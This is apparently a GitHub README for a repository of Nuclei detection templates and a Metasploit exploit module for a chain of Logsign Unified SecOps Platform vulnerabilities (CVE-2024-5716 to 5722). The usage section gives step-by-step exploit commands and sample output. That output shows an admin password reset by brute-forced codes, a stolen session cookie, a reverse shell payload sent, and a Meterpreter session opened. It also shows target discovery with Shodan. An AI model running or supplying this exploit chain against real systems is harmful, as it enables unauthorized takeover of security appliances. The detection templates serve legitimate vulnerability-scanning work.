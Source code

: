 # Logsign Unified SecOps Platform: Detection CVE-2024-5716 to CVE-2024-5722 - Exploiting CVE-2024-5716 and CVE-2024-5717, Proof of Concept (PoC)

## Explanation:

This repository contains Nuclei template for detecting multiple vulnerabilities in Logsign Unified SecOps Platform. The template are designed to identify the following vulnerabilities:

- **ZDI-CAN-24164 > CVE-2024-5716**: Logsign Unified SecOps Platform Authentication Bypass Vulnerability
- **ZDI-CAN-24165 > CVE-2024-5717**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24166 > CVE-2024-5718**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24167 > CVE-2024-5719**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24168 > CVE-2024-5720**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24169 > CVE-2024-5721**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24170 > CVE-2024-5722**: Logsign Unified SecOps Platform HTTP API Hard-coded Cryptographic Key Remote Code Execution Vulnerability

The metasploit exploit phase will be updated...

## Usage

To use these template with Nuclei, follow the example steps below:

### Clone the repository:

```sh
git clone https://github.com/j4nk3/Logsign-RCE.git
cd Logsign-RCE
```
### Usage with Nuclei:

**Single Target:**
```sh
nuclei -u https://target.com -t logsign-unauth-bypass-rce.yaml -nh
```
**Multiple Target:**
```sh
nuclei -l urls.txt -t logsign-unauth-bypass-rce.yaml -nh
```
**Sample Recon and Detection Process:**

<p>
  <img src="https://github.com/user-attachments/assets/a0759656-9cf9-44cf-9113-87c483303bb4" alt="Recon with Shodan" width="700"/>
</p>
<br>
<p>
  <img src="https://github.com/user-attachments/assets/5ea535f3-f9a8-43f3-a65d-3c40783cd8c9" alt="Detection with Nuclei" width="700"/>
</p>

### Usage with Metasploit
```
# Step 1: Copy the .rb file to the Metasploit modules directory
sudo cp logsign-unauth-rce.rb /usr/share/metasploit-framework/modules/auxiliary/exploit/

# Step 2: Start Metasploit
msfconsole

# Step 3: Load the module
msf6 > use auxiliary/exploit/logsign-unauth-rce

# Step 4: Set the required options
msf6 auxiliary(exploit/logsign-unauth-rce) > set TARGETURI /
msf6 auxiliary(exploit/logsign-unauth-rce) > set USERNAME admin
msf6 auxiliary(exploit/logsign-unauth-rce) > set LHOST 0.0.0.0
msf6 auxiliary(exploit/logsign-unauth-rce) > set LPORT 1337
msf6 auxiliary(exploit/logsign-unauth-rce) > set RHOSTS 192.168.1.10
msf6 auxiliary(exploit/logsign-unauth-rce) > set RPORT 443

# Step 5: Run the exploit
msf6 auxiliary(exploit/logsign-unauth-rce) > run

[*] Resetting admin password using CVE-2024-5716...
[*] Forget password request sent for user: admin
[*] Successfully brute-forced reset code: 123456, verification code: 7890
[*] Password successfully reset to: Hkdi2983jdlGfdLS
[*] Successfully logged in with the new password. Session cookie: PHPSESSID=abcd1234...
[*] CVE-2024-5717 Remote Code Execution process initiated...
[*] Sending reverse shell payload...
[*] Exploit completed, waiting for session...

[*] Meterpreter session 1 opened (192.168.1.100:1337 -> 192.168.1.10:443) at 2024-08-12 12:34:56 +0000

msf6 auxiliary(exploit/logsign-unauth-rce) >

```

Many thanks to @mdisec (Mehmet Ince) for the security research and critical finding detections performed on this product.

## Contributing
Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.

## License
This project is licensed under the MIT License.

## Disclaimer
This GitHub repository is intended solely for cybersecurity research and educational purposes. The tools, scripts, and information provided here are designed to help security professionals and researchers better understand and improve the security of computer systems and networks.

The repository owner, contributors, and GitHub do not endorse or support any illegal or unethical activities. Any misuse of the materials provided in this repository is strictly the responsibility of the user. The repository owner and contributors will not be held liable for any damage, loss, or legal consequences resulting from the use or misuse of the content in this repository.

By using the content in this repository, you agree to use it responsibly and in compliance with all applicable laws and regulations.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
